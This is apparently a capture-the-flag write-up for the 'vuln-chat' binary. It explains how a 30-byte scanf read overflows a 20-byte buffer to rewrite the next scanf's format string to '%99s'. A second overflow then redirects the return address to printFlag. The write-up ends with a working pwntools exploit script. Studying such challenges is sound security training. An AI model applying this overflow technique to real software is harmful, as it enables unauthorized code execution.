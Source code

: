 # Application

![image](https://user-images.githubusercontent.com/115867891/206297958-7b675812-ec8a-4edf-aa59-4ef80ce0e9ac.png)

# Dissasembly

IDA shows 2 `scanf` calls, one for a name and one for some password. Now taking a look at the stack:

![image](https://user-images.githubusercontent.com/115867891/206298795-99c5fcd4-2ad8-4b1b-b524-32f80743adf0.png)

Both name and password accept 0x14 bytes. But we can write 30 due to `%30s` in `scanf`. However, we cannot reach return address with
either of them.

What we can do (thanks to the tutorial...), is overwrite the format string to `%99` and then it can accept any number of password chars.
We first overwrite 0x14 bytes, then our new format string. Then, overwrite 0x31 bytes and return address to the static address (since there is no PIE).

# Exploit

```
from pwn import *

elf = ELF('./vuln-chat')

addr_shell = elf.symbols['printFlag']
print(hex(addr_shell))

proc = process('./vuln-chat')

payload1 = b'A' * 0x14 + b"%99s"
print(proc.recvuntil("username: "))
proc.sendline(payload1)

payload2 = b'A' * 0x31 + p32(0x0804856B)
print(proc.recvuntil("I know I can trust you?"))
proc.sendline(payload2)

proc.interactive()
```

![image](https://user-images.githubusercontent.com/115867891/206299918-d70d4514-2cf2-4e10-a9aa-7b423653f5e8.png)
